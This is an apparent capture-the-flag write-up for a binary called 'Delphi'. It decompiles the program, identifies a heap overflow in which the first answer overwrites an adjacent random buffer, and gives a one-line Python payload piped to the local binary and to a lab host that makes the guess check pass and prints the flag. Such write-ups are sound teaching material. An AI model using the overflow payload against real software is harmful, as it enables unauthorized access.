








# Getting the challenge

The zip file contains a Dockerfile with some files that describes the service. One of the extra files is a binary that is running with a flag.txt placeholder. This is enough to test everything locally. If your environment differs significantly from the docker image, you can extract the libc from it and use it locally.

Upon running the binary, it asks 2 questions.



# Checking the logic

Ghidra can recover the code ([delphi.c](workdir/delphi.c)) relatively well. 

```c
void FUN_00101341(void *param_1)
{
  size_t __n;
  long in_FS_OFFSET;
  char local_518 [1288];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  fgets(local_518,0x500,stdin);
  __n = strlen(local_518);
  memcpy(param_1,local_518,__n);
  // REDACTED
  return;
}

undefined8 FUN_001013bf(void)
{
  // REDACTED
  local_68 = (char *)malloc(0x10);
  local_60 = (char *)malloc(0x20);
  memset(local_60,0,0x20);
  getrandom(local_60,0x20,0);
  for (local_7c = 0; local_7c < 0x20; local_7c = local_7c + 1) {
    if ((local_60[local_7c] == '\0') || (local_60[local_7c] == '\n')) {
      local_60[local_7c] = '*';
    }
  }
  puts("Welcome to the Oracle of Delphi!");
  puts("Hic es forsit ut tuum futurum invenias.\n");
  puts(
      "I will think of something bright and shiny. If you manage to think of the same thing, I will predict your future."
      );
  puts("If not, shall the gods have mercy on your soul.\n");
  printf("What shall I think of (ie What\'s my favorite instrument)? ");
  FUN_00101341(local_68);
  printf("So you asked: ");
  puts(local_68);
  puts("Okay, now that\'s a good one. Let me think...");
  sleep(2);
  printf("Got it. Any clue what it is I had in mind? ");
  fgets(local_48,0x21,stdin);
  iVar1 = strncmp(local_48,local_60,0x20);
  if (iVar1 == 0) {
    puts("Woah... You got it. Interested in a job offer? We have some good java coffee.");
    local_78 = (char *)0x0;
    local_70 = 0;
    tVar2 = time((time_t *)0x0);
    srand((uint)tVar2);
    local_58 = fopen("flag.txt","r");
    if (local_58 == (FILE *)0x0) {
      puts("Error: flag.txt not found. Contact an admin.");
                    // WARNING: Subroutine does not return
      exit(1);
    }
    while (local_50 = getline(&local_78,&local_70,local_58), local_50 != -1) {
      printf("%s",local_78);
    }
    fclose(local_58);
    if (local_78 != (char *)0x0) {
      free(local_78);
    }
  }
  else {
    puts("Nope, that\'s not it. You\'re doomed.");
  }
  // REDACTED
}

```

FUN_00101341 is used to read some input to a large enough buffer, then it copies strlen(buffer) amount into it's parameter deestination. 

FUN_001013bf is presumably the main function, it is allocating 2 buffers (size 0x10 and 0x20) with malloc and randomizing the latter with some filtering. The former is passed to the FUN_00101341 read function to hould our input. A third smaller local buffer is used to read some bytes in the second question, and this value is compared to the random one. Upon successfully guessing the random number, the flag is given out.

# The problem

The reader function is ignoring the destination buffer size and overflow can occur. This can overwrite the random part. 

Pwntools can be used to generate some cyclic strings to easily spot memory patterns.



The program can be stopped on [malloc](https://cplusplus.com/reference/cstdlib/malloc/) and [strncmp](https://cplusplus.com/reference/cstring/strncmp/) to check the memory layout. 



The strncmp parameters will be passed in `$rdi` (guess), `$rsi` (random), `$rdx` (length).

During a normal run, at `$rsi-32` the input string for the first question can be seen, and at `$rsi`, the randomly generated variable.



During a run with overflow, the random is overwritten with the given input.



## Exploit

The allocated heap structure is deterministic, always allocating the same size in the same order.

The first question can overwrite the random with known value and the second question can use the known value. There is no free at all, so corrupting the heap structure is not a problem.

```bash
python -c 'print("A"*32+"X"*31+"\n"+"X"*31+"\n")' | ./delphi
python -c 'print("A"*32+"X"*31+"\n"+"X"*31+"\n")' | nc 10.10.8.10 55364
```



TODO: replace screenshot from live environment

## Flag

TODO: add flag from live env

## Pwndbg

Pwndbg can be used for better experience.

For example more verbose and easier to read outputs.



Heap information.

